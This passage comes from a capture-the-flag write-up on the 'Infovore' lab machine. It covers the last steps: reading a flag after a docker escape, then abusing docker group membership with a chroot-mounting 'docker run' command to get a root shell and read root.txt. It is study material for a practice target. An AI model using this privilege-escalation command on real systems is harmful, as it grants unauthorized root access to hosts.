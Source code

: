## Flag

We sucessfully escaped from the docker environment. Let's get the third flag:

~~~
admin@infovore:~$ cat admin.txt
cat admin.txt
FLAG{Escaped_from_D0ck3r}
~~~

# Flag 4

The `admin` user belongs to the `docker` group: 

~~~
admin@infovore:~$ id
id
uid=1000(admin) gid=1000(admin) groups=1000(admin),999(docker)
~~~

[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) confirms that we can take advantage of this to elevate our privileges:

~~~
admin@infovore:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
df20fa9351a1: Pull complete 
Digest: sha256:185518070891758909c9f839cf4ca393ee977ac378609f700f60a771a2dfe321
Status: Downloaded newer image for alpine:latest
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
~~~

Now, let's get the flag:

~~~
# cd /root
cd /root
# ls -la
ls -la
total 28
drwx------  4 root root 4096 Jun 23 06:19 .
drwxr-xr-x 22 root root 4096 Apr 17 09:15 ..
lrwxrwxrwx  1 root root    9 Apr 22 07:04 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Apr 23 02:04 .gnupg
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Jun  1 10:18 .ssh
-r--------  1 root root 1511 Jun 22 16:49 root.txt
# cat root.txt
cat root.txt
 _____                             _       _                                              
/  __ \                           | |     | |                                             
| /  \/ ___  _ __   __ _ _ __ __ _| |_ ___| |                                             
| |    / _ \| '_ \ / _` | '__/ _` | __/ __| |                                             
| \__/\ (_) | | | | (_| | | | (_| | |_\__ \_|                                             
 \____/\___/|_| |_|\__, |_|  \__,_|\__|___(_)                                             
                    __/ |                                                                 
                   |___/                                                                  
__   __                                         _   _        __                         _ 
\ \ / /                                        | | (_)      / _|                       | |
 \ V /___  _   _   _ ____      ___ __   ___  __| |  _ _ __ | |_ _____   _____  _ __ ___| |
~~~